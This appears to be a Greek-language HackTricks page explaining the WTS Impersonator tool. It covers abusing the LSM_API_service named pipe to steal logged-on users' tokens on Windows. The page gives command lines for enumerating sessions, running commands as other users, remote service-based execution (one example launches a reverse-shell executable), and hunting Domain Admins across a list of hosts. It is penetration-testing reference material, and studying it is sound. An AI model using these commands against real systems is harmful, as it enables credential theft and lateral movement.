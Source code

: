 {{#include ../../banners/hacktricks-training.md}}

Το εργαλείο **WTS Impersonator** εκμεταλλεύεται το **"\\pipe\LSM_API_service"** RPC Named pipe για να καταγράψει κρυφά τους συνδεδεμένους χρήστες και να κλέψει τα tokens τους, παρακάμπτοντας τις παραδοσιακές τεχνικές Token Impersonation. Αυτή η προσέγγιση διευκολύνει τις ομαλές πλευρικές κινήσεις εντός των δικτύων. Η καινοτομία πίσω από αυτή την τεχνική αποδίδεται στον **Omri Baso, του οποίου το έργο είναι προσβάσιμο στο [GitHub](https://github.com/OmriBaso/WTSImpersonator)**.

### Κύρια Λειτουργικότητα

Το εργαλείο λειτουργεί μέσω μιας ακολουθίας κλήσεων API:
```bash
WTSEnumerateSessionsA → WTSQuerySessionInformationA → WTSQueryUserToken → CreateProcessAsUserW
```
### Κύρια Μodule και Χρήση

- **Καταμέτρηση Χρηστών**: Η τοπική και απομακρυσμένη καταμέτρηση χρηστών είναι δυνατή με το εργαλείο, χρησιμοποιώντας εντολές για κάθε σενάριο:

- Τοπικά:
```bash
.\WTSImpersonator.exe -m enum
```
- Απομακρυσμένα, καθορίζοντας μια διεύθυνση IP ή όνομα υπολογιστή:
```bash
.\WTSImpersonator.exe -m enum -s 192.168.40.131
```

- **Εκτέλεση Εντολών**: Τα modules `exec` και `exec-remote` απαιτούν ένα **Service** context για να λειτουργήσουν. Η τοπική εκτέλεση χρειάζεται απλώς το εκτελέσιμο WTSImpersonator και μια εντολή:

- Παράδειγμα για τοπική εκτέλεση εντολής:
```bash
.\WTSImpersonator.exe -m exec -s 3 -c C:\Windows\System32\cmd.exe
```
- Το PsExec64.exe μπορεί να χρησιμοποιηθεί για να αποκτήσει ένα service context:
```bash
.\PsExec64.exe -accepteula -s cmd.exe
```

- **Απομακρυσμένη Εκτέλεση Εντολών**: Περιλαμβάνει τη δημιουργία και εγκατάσταση μιας υπηρεσίας απομακρυσμένα, παρόμοια με το PsExec.exe, επιτρέποντας την εκτέλεση με κατάλληλες άδειες.

- Παράδειγμα απομακρυσμένης εκτέλεσης:
```bash
.\WTSImpersonator.exe -m exec-remote -s 192.168.40.129 -c .\SimpleReverseShellExample.exe -sp .\WTSService.exe -id 2
```

- **Module Εντοπισμού Χρηστών**: Στοχεύει συγκεκριμένους χρήστες σε πολλές μηχανές, εκτελώντας κώδικα υπό τις διαπιστεύσεις τους. Αυτό είναι ιδιαίτερα χρήσιμο για την στόχευση Domain Admins με τοπικά δικαιώματα διαχειριστή σε αρκετά συστήματα.
- Παράδειγμα χρήσης:
```bash
.\WTSImpersonator.exe -m user-hunter -uh DOMAIN/USER -ipl .\IPsList.txt -c .\ExeToExecute.exe -sp .\WTServiceBinary.exe
```

{{#include ../../banners/hacktricks-training.md}}

